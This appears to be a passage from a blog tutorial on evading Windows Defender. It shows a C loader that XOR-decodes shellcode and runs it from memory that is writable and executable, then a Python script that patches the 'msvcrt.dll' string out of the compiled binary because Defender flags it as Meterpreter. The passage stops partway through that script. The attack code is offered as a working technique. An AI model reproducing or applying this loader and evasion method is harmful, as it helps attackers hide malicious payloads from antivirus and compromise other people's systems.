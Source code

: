 ```c

int main() {

    void * exec = VirtualAlloc( 0, sizeof( shellcode ), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE );

    xor( shellcode, sizeof( shellcode ), key, sizeof( key ) );

    RtlMoveMemory( exec, shellcode, sizeof( shellcode ) );
    ( (void ( * )())exec )();

    return 0;
}
```

Now, let's compile the loader and check defender again!
### Rabbitholes

After running `gocheck`, I was surprised to see that the binary was flagged as malicious.
![huh](https://i.gyazo.com/26a0dff23c8cb9c90bd3d05dc4aa6e88.png)

According to `gocheck`, the string "msvcrt.dll" is being signatured as Meterpreter? That's strange. 

A google search doesn't help much, but string searching for "msvcrt.dll" in random discord channels lead me to [this article](https://whiteknightlabs.com/2023/05/23/unleashing-the-unseen-harnessing-the-power-of-cobalt-strike-profiles-for-edr-evasion/) by White Knight Labs on weaponizing Cobalt Strike with their artifact kit.

![msvcrt.dll](https://i.gyazo.com/3afeb0b9f4340268df90bc2526c853dd.png)

Seems like this is a known issue, the solution provided in the article was to make use of Cobalt Strike's Malleable C2 profile to `strrep` "msvcrt.dll" with an empty string. However, this wasn't very effective for them. But, since "msvcrt.dll" is our only false positive- let's try writing our own `strrep` script.

### Replacing Bad Strings

```python
import sys

def strrep( file_path, original_string, replacement_string ):
    ld = len( original_string ) - len( replacement_string )
    repl = replacement_string + '\x00' * ld

    try:
        with open( file_path, 'rb' ) as file:
            exe = file.read()

        modified_data = exe.replace( original_string.encode(), repl.encode() )

        with open( file_path, 'wb' ) as file:
            file.write( modified_data )

    except Exception as e:
        print( f"Error: {e}" )
        sys.exit( 1 )


if __name__ == "__main__":
    if len( sys.argv ) < 3:
        print( "Usage: python strrep.py <file_path> <original> <replacement>" )
        sys.exit( 1 )

    file_path = sys.argv[ 1 ]
```